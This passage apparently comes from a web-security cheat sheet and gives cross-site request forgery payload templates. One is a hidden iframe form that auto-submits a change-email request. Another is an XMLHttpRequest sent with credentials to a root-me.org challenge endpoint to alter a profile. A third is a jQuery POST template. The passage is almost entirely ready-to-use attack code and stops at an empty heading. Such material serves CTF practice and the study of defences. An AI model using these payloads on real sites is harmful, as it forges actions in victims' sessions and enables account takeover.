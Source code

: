 #### Form POST request through iframe

```markup
<!-- 
The request is sent through the iframe withuot reloading the page 
-->
<html>
  <body>
  <iframe style="display:none" name="csrfframe"></iframe> 
    <form action="/change-email" id="csrfform" target="csrfframe">
      <input type="hidden" name="email" value="some@email.com" autofocus onfocus="csrfform.submit();" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

#### **Ajax POST request**

```markup
<script>
var xh;
if (window.XMLHttpRequest)
  {// code for IE7+, Firefox, Chrome, Opera, Safari
  xh=new XMLHttpRequest();
  }
else
  {// code for IE6, IE5
  xh=new ActiveXObject("Microsoft.XMLHTTP");
  }
xh.withCredentials = true;
xh.open("POST","http://challenge01.root-me.org/web-client/ch22/?action=profile");
xh.setRequestHeader('Content-type', 'application/x-www-form-urlencoded'); //to send proper header info (optional, but good to have as it may sometimes not work without this)
xh.send("username=abcd&status=on");
</script>

<script>
//JQuery version
$.ajax({
  type: "POST",
  url: "https://google.com",
  data: "param=value&param2=value2"
})
</script>
```

#### multipart/form-data POST request
